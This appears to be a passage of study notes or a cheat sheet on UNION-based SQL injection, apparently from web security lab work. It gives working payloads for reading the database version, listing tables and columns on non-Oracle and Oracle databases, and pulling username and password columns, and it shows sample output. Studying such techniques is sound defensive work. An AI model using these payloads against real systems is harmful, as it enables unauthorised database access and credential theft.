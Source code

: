 
Example:

```sql
'UNION SELECT @@version--
GET /filter?category='UNION+SELECT+@@version,NULL,NULL--
'UNION+SELECT+NULL,banner+FROM+v$version-- 
```

## Listing the contents of the databases

### Non-oracle
Every database have information_schema.tables to list all table in database

`SELECT * FROM information_schema.tables`

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```


`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

example:

Extract tables: 
`'UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables--`

Extract columns:
`'UNION+SELECT+COLUMN_NAME,NULL+FROM+information_schema.columns+WHERE+table_name='users_yyifmy'--`

Extract data from column:
`'UNION+SELECT+password_epsfwo,username_bdsehe+FROM+users_yyifmy--`

### Oracle

You can list tables by querying all_tables:
`SELECT * FROM all_tables`

You can list columns by querying all_tab_columns:
`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
`'UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_VKXFMK'--`

## Retrieving multiple values within a single column
